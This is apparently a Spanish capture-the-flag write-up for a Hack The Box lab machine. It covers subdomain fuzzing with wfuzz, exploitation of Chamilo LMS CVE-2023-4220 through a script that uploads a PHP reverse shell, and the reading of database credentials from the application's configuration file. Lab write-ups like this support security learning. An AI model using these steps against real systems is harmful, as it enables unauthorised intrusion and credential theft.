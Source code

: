 **Resultados relevantes:**

|Puerto|Servicio|Versión|
|---|---|---|
|22/tcp|SSH|OpenSSH 8.9p1 Ubuntu|
|80/tcp|HTTP|Apache httpd 2.4.52 (Ubuntu)|

Al acceder a `http://permx.htb`, encontré un sitio web estático sin información relevante.

Posteriormente, realicé una enumeración de subdominios con wfuzz para descubrir otros hosts virtuales en el dominio:

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc 302,404 -H "Host: FUZZ.permx.htb" permx.htb
```

Esto reveló el subdominio `lms.permx.htb`.

Agregué este subdominio al archivo `/etc/hosts` para poder acceder a él localmente.

## Enumeración Web

Al acceder a `http://lms.permx.htb`, encontré una plataforma Chamilo LMS versión 1.11.24.

Investigué las vulnerabilidades conocidas para esta versión y encontré el **CVE-2023-4220**, que permite ejecución remota de código (RCE) sin autenticación mediante la carga de archivos maliciosos.

Para confirmar la vulnerabilidad, utilicé un exploit público disponible en GitHub, que permite subir un archivo PHP con una reverse shell.

Ejecuté el siguiente comando para subir la shell y escuchar la conexión:

```bash
bash CVE-2023-4220.sh -f rev.php -h http://lms.permx.htb/ -p 443
```

La shell se estableció exitosamente y obtuve acceso como el usuario `www-data` en el servidor:

```bash
www-data@permx:/$
```

## Post-Explotación

Una vez con acceso como `www-data`, exploré el sistema en busca de información sensible. Encontré el archivo de configuración de Chamilo en:

```bash
/var/www/chamilo/app/config/configuration.php
```

Dentro de este archivo se encontraban las credenciales de conexión a la base de datos:

```bash
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
